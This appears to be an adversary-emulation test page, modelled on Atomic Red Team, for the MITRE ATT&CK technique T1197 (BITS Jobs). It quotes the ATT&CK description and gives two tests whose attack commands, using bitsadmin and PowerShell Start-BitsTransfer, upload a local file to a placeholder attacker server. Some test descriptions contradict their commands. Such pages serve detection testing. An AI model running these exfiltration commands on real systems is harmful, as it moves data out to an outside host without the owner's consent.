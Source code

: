 # A1197 - BITS Jobs
<blockquote>
This page was modified by A-FIRST
</blockquote>
<br/>

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1197)

<blockquote>Adversaries may abuse BITS jobs to persistently execute or clean up after malicious payloads. Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through [Component Object Model](https://attack.mitre.org/techniques/T1559/001) (COM).(Citation: Microsoft COM)(Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.

The interface to create and manage BITS jobs is accessible through [PowerShell](https://attack.mitre.org/techniques/T1059/001) and the [BITSAdmin](https://attack.mitre.org/software/S0190) tool.(Citation: Microsoft BITS)(Citation: Microsoft BITSAdmin)

Adversaries may abuse BITS to download, execute, and even clean up after running malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls.(Citation: CTU BITS Malware June 2016)(Citation: Mondok Windows PiggyBack BITS May 2007)(Citation: Symantec BITS May 2007) BITS enabled execution may also enable persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots).(Citation: PaloAlto UBoatRAT Nov 2017)(Citation: CTU BITS Malware June 2016)

BITS upload functionalities can also be used to perform [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048).(Citation: CTU BITS Malware June 2016)</blockquote>

## Atomic Tests

- [Atomic Test #5 - Bitsadmin Upload (cmd)](#atomic-test-5---bitsadmin-Upload-cmd)

- [Atomic Test #6 - Bitsadmin Upload (PowerShell)](#atomic-test-6---bitsadmin-Upload-powershell)



<br/>

## Atomic Test #5 - Bitsadmin Upload (cmd)
This test simulates an adversary leveraging bitsadmin.exe to upload

**Supported Platforms:** Windows

<br/>

#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| Attacker_Server | Remote file to Upload | url | 
| local_file | File path for data | String | PathToAtomicsFolder&#92;T1197&#92;src&#92;a1197.dat|
| remote_file | Remote file to Upload | url | &#92;atomic-re-team&#92;A1197&#92;src&#92;Upload&#92;A1197.dat


<br/>

#### Attack Commands: Run with `command_prompt`! 


```cmd
bitsadmin.exe /transfer /Upload /priority Foreground #{Attacker_Server}#{remote_file} #{local_file}
```

#### Cleanup Commands:
```cmd
del #{local_file} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #6 - Bitsadmin Upload (PowerShell)
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload leveraging PowerShell

Upon execution you will find a github markdown file downloaded to the Temp directory

**Supported Platforms:** Windows

<br/>

#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| Attacker_Server | Remote file to Upload | url | 
| local_file | File path for data | String | PathToAtomicsFolder&#92;T1197&#92;src&#92;a1197.dat|
| remote_file | Remote file to Upload | url | #{Attacker_Server}&#92;atomic-re-team&#92;A1197&#92;Upload&#92;A1197.dat

<br/>

#### Attack Commands: Run with `powershell`! 


```powershell
Start-BitsTransfer -Priority foreground -TransferType Upload -Source #{local_file} -Destination #{remote_file} 
```

#### Cleanup Commands:
```powershell
Remove-Item #{local_file} -ErrorAction Ignore
```





<br/>
